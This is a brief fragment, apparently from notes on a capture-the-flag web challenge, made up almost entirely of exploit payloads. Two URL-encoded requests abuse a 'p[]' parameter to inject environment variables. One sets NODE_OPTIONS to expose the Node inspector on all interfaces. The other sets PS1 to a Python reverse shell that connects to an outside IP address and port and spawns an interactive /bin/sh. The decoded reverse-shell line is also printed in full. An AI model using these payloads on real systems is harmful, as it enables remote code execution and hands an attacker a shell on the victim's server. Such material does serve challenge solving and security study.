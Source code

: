 http://challenge.p6.is/0/?p[]=NODE%5FOPTIONS%3D%22%2D%2Dinspect%3D0%2E0%2E0%2E0%3A22473%22&file=/usr/bin/node
http://challenge.p6.is/0/?p[]=PS1%3D%24%28python%20%2Dc%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket%2Esocket%28socket%2EAF%5FINET%2Csocket%2ESOCK%5FSTREAM%29%3Bs%2Econnect%28%28%223%2E23%2E201%2E37%22%2C18301%29%29%3Bos%2Edup2%28s%2Efileno%28%29%2C0%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C1%29%3B%20os%2Edup2%28s%2Efileno%28%29%2C2%29%3Bp%3Dsubprocess%2Ecall%28%5B%22%2Fbin%2Fsh%22%2C%22%2Di%22%5D%29%3B%27%29&file=/bin/sh

PS1=$(python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.23.201.37",18301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') /bin/sh

